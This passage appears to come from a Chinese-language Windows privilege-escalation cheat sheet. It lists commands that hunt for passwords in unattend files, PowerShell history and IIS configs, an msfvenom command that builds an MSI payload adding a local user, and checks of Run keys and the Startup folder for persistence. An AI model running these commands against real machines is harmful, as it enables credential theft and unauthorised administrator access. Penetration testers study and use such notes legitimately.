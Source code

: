 > 注意：Windows 内核漏洞的众多利用程序中，有一些是需要在 GUI 环境才能够正常使用的，这一点需特别注意。

伍 - 密码搜寻


------------

1.  无人值守文件常见路径，如下：
    1.  `C:\unattend.xml`
    2.  `C:\Windows\Panther\Unattend.xml`
    3.  `C:\Windows\Panther\Unattend\Unattend.xml`
    4.  `C:\Windows\system32\sysprep.xml`
    5.  `C:\Windows\system32\sysprep\sysprep.xml`
2.  用户家目录中的 `*.*` 文件 。【命令 `dir /s /b c:\users\ | findstr .*\..*` 】
3.  PowerShell 历史文件
    1.  `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
    2.  `cat (Get-PSReadlineOption).HistorySavePath`
4.  IIS 配置和 Web 文件
    1.  `Get-Childitem -Recurse C:\inetpub | findstr -i "directory config txt aspx ps1 bat xml pass user"` 结果中的 web.config、connectionstrings.config 文件，或类似的 config 文件。
    2.  除了 IIS 默认使用的 `C:\inetpub` 目录外，还有这些目录值得注意：`C:\apache`、`C:\nginx`、`C:\xampp`、`C:\wamp`。
5.  若能够登录 SQL 数据库，则遍历 **系统内置库/用户自建库** 中用户表中的账户密码。

陆 - 杂项


----------

#### 

1、AlwaysInstallElevated

1.  检查 AlwaysInstallElevated 功能是否开启。【值为 1 表示功能已启用】
    
        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        
    
2.  制作载荷 `msfvenom -p windows/adduser USER=msi PASS=pass@123 -f msi -o /root/add.msi`
    

#### 

2、开机自启

1.  自启应用-目录：`icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`【有写权限时，将程序或 bat 放入即可。】
2.  自启应用-注册表：`reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"`【（1）有注册表写权限时，可以在此键下面创建新键；（2）观察其中的子键程序路径，查看是否存在**弱目录权限**或**程序路径未引用**的问题。】

> 注: 上述注册表路径中与 Run 同路径下的其它键 RunOnce、R、Runex、Runonceex 亦值得关注。RunOnce 子键中的程序在执行一次之后，该子键便被删除了。

柒 - 服务程序


------------

> 在此之前，首先通过命令 `netstat -anop tcp | findstr.exe LISTENING` 确定在此系统中有哪些运行的服务可能是我们感兴趣的。

#### 
